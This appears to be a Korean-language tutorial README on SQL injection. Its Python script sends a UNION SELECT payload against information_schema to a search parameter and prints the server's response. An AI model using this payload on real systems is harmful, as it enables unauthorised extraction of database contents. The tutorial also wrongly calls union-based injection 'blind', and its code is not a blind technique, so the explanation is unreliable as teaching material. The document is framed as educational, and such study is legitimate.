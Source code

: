 # Python을 사용한 Blind SQL Injection

## 소개
Blind SQL Injection은 웹 애플리케이션에서 발생할 수 있는 보안 취약점 중 하나로, 공격자가 애플리케이션의 데이터베이스를 조작할 수 있는 기술입니다. 이 기술은 SQL 쿼리의 결과에 따라 서버의 응답을 확인함으로써 데이터베이스의 정보를 추출하거나 조작할 수 있습니다. 이 예제는 Python을 사용하여 Blind SQL Injection을 시연하고 설명합니다.

## 필수 요소
- **Python 3.x**: Python 코드를 실행하기 위한 환경이 필요합니다.
- **requests 라이브러리**: HTTP 요청을 보내기 위한 라이브러리입니다.

## 시나리오
이 예제에서는 다음과 같은 가정을 합니다:
- 공격 대상: 웹 애플리케이션의 검색 기능
- 공격 목표: 데이터베이스의 정보를 추출

## 공격 과정
1. **Union Based Blind SQL Injection**: 검색 기능을 통해 SQL Injection을 발생시키고 Union 구문을 사용하여 데이터베이스 정보를 추출합니다.
2. **Time Based Blind SQL Injection**: 시간 지연 함수 (예: `sleep()`)를 이용하여, 결과에 따라 서버의 응답 속도를 확인하고 데이터베이스의 정보를 추정합니다.

## Python 코드 예제
아래 예제 코드는 Python을 사용하여 Union Based Blind SQL Injection을 시연하는 예제입니다. 이 코드는 실제 공격을 목적으로 하지 않으며, 학습과 이해를 위한 목적으로 제공됩니다.

```python
import requests

# 타겟 웹 애플리케이션 URL
target_url = 'http://example.com/search'

# Union Based Blind SQL Injection
def blind_sql_injection():
    result = ""
    # 데이터베이스의 정보를 추출할 SQL Injection Payload
    payload = "' UNION SELECT table_name, column_name FROM information_schema.columns -- "
    
    # HTTP 요청을 보내서 취약점을 이용한 데이터 추출 시도
    try:
        response = requests.get(target_url, params={'search': payload})
        if response.status_code == 200:
            # 취약점을 이용하여 얻은 데이터 출력
            result = response.text
    except requests.RequestException as e:
        print(f"에러 발생: {e}")
    
    return result

# 메인 함수: Blind SQL Injection 실행 및 결과 출력
def main():
    print("Python을 사용한 Blind SQL Injection 예제\n")
    print("데이터베이스 정보를 추출하는 중...\n")
    
    # Blind SQL Injection 시도
    extracted_data = blind_sql_injection()
    
    if extracted_data:
        print("추출된 데이터:")
        print(extracted_data)
    else:
        print("데이터 추출 실패. 애플리케이션이 취약하지 않을 수 있습니다.")

if __name__ == "__main__":
    main()
